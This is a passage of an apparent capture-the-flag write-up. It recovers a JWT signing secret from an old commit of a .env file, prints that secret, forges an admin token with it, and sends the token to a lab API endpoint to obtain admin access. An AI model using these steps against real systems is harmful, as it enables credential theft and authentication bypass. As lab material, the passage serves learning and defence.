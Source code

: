 ```

commit 3a367e735ee76569664bf7754eaaade7c735d702
Author: dasithsv <dasithsv@gmail.com>
Date:   Fri Sep 3 11:26:39 2021 +0530

    added downloads

commit 55fe756a29268f9b4e786ae468952ca4a8df1bd8
Author: dasithsv <dasithsv@gmail.com>
Date:   Fri Sep 3 11:25:52 2021 +0530

    first commit
                 
```


Then we can use that hash from the first commit to see the old version of the `.env` file
```bash
git show 55fe756a29268f9b4e786ae468952ca4a8df1bd8:.env
```

and here's what shows up

```
DB_CONNECT = 'mongodb://127.0.0.1:27017/auth-web'
TOKEN_SECRET = gXr67TtoQL8TShUc8XYsK2HvsBYfyQSFCFZe4MQp7gRpFuMkKjcM72CNQN4fMfbZEKx4i7YiWuNAkmuTcdEriCMm9vPAYkhpwPTiuVwVhvwE
```

If they haven't changed the token, we can now use [jwt.io](https://jwt.io/) to forge session tokens easily. If we copy the payload from the sample JWT in the documentation

```json
{
  "_id": "6114654d77f9a54e00f05777",
  "name": "theadmin",
  "email": "root@dasith.works",
  "iat": 16287276699
}
```

and change the secret to the `TOKEN_SECRET` value we just found (the algorithm and token type default to the correct values), we get this token

```
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJfaWQiOiI2MTE0NjU0ZDc3ZjlhNTRlMDBmMDU3NzciLCJuYW1lIjoidGhlYWRtaW4iLCJlbWFpbCI6InJvb3RAZGFzaXRoLndvcmtzIiwiaWF0IjoxNjI4NzI3NjY5OX0.WyUYmOpWU5gYlx2KdIP42G2JOV0fd7UKrQmQnd1gUgo
```

Sending that as the `auth-token` header in a GET request to the [http://10.10.11.120:3000/api/priv](http://10.10.11.120:3000/api/priv) endpoint (I'm using [Postman](https://www.postman.com/) for this, but feel free to use something like [Burpsuite](https://portswigger.net/burp) instead) gives us this response back

```json
{
    "creds": {
        "role": "admin",
        "username": "theadmin",
        "desc": "welcome back admin"
    }
}
```
